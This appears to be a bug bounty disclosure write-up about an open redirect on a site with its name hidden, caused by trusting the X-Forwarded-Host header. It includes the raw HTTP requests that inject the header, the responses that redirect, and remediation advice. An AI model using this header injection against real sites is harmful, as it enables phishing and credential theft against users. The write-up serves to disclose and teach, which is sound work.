


# Open-redirect-On-XYZ.com-Via-X-Forwarded-Host-Header
xyz.com is the made up website domain of a company I found the vulnerability on Hackerone , will keep the real name confidential.

# Description
I noticed that the below requests was vulnerable to an open redirect via the host header injection, because the url redirection link is gotten from the host header value and it is not verified thus allowing me to redirect a user to another website similar to the login page and steal user credentials.


Request
```plaintext
GET /login HTTP/1.1
Host: atlas.xyz.tools
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://atlas.xyz.tools/
Connection: close
-----------snip---------------------------
Response
-------------------snip--------------------------
<html><body>You are being <a href="https://atlas.xyz.tools/auth/saml?redirectUrl=https://atlas.xyz.tools">redirected</a>.</body></html>

```

# Steps To Reproduce

I will be using google.com and facebook.com as an example of a malicious hacker website.

STEP 1 : Visit atlas.xyz.com and capture the request below with burpsuite and send to the repeater.
```plaintext
GET /login HTTP/1.1
Host: atlas.xyz.tools
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://atlas.xyz.tools/
Connection: close
-----------snip---------------------------
```
STEP 2: Modify the request by adding X-Forwarded-Host: facebook.com or google.com.

Note: This can also be done by modifying the Host header value but when X-Forwarded-Host Header is present within the request, the redirect url is gotten from the value of the X-Forwarded-Host Header instead of the Host Header.


The request when modified should be as this below :
```plaintext
GET /login HTTP/1.1
Host: atlas.xyz.tools
X-Forwarded-Host: facebook.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://atlas.xyz.tools/
Connection: close
-----------snip---------------------------
send the request via the repeater , response should be
-----------snip-------------------------------
<html><body>You are being <a href="https://facebook.com/auth/saml?redirectUrl=https://facebook.com">redirected</a>.</body></html>
```

</br>
<div align="center">
  
</div>


Following the redirection.......
```plaintext
GET /auth/saml?redirectUrl=https://facebook.com HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://atlas.xyz.tools/
Connection: close
Upgrade-Insecure-Requests: 1
Host: facebook.com
```

Another request I was able to get a redirect easily was with the request below
```plaintext
GET / HTTP/1.1
Host: atlas.xyz.tools
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
X-Forwarded-Host: facebook.com
--------------------snip------------------------
```
Response
```plaintext
------------------snip--------------------------------------
<a class="btn btn-primary btn-lg" role="button" id="sign_in" href="https://facebook.com/login">Sign in</a>
```
</br>
<div align="center">
  
</div>
</br>
Request the response in browser session
<p>As soon as the sign in button is clicked the user is redirected to a facebook.com instead of atlas.xyz.tools/login.</p>

# Remediation

This open redirection is possible because of unvalidated inputs gotten from the header requests. The redirection url is gotten from the host header but when the X-Forwarded-Host header is present, it can override the Host header value even if it is the correct redirection url thus the way to prevent this attack is to disable the X-Forwarded-Host Header and validate the host header value by maybe a whitelist.

# Impact

If you have an open redirection vulnerability, it makes many other attacks possible:

1). <b>Phishing :</b> The most obvious way to use an open redirect is to steer the victim away from the original site to a site that looks the same, steal user credentials, and then return to the vulnerable website as if nothing happened.

2). <b>Cross-site Scripting (XSS):</b> If the redirect allows the use of data: or javascript: protocols and the client supports such protocols in redirects, it makes it possible for the attacker to perform an XSS attack.

3). <b>Server-Side Request Forgery (SSRF):</b> Open redirects may be used to evade SSRF filters.

4). <b>Content-Security-Policy bypassing:</b> If you use CSP to protect against XSS and one of the whitelisted domains has an open redirect, this vulnerability may be used to bypass CSP.

5). <b>CRLF Injection:</b> If the redirection parameter allows line breaks, the attacker may try to perform response header splitting.

# Summary

Redirects are a common part of website operations but can cause application security risks when carelessly implemented.

An open redirect endpoint accepts un-trusted inputs as the target URL, allowing attackers to redirect users to a malicious website and opening up a wide array of attack vectors. Exploitation can be as simple as manually changing a URL parameter value to an attacker-controlled site.
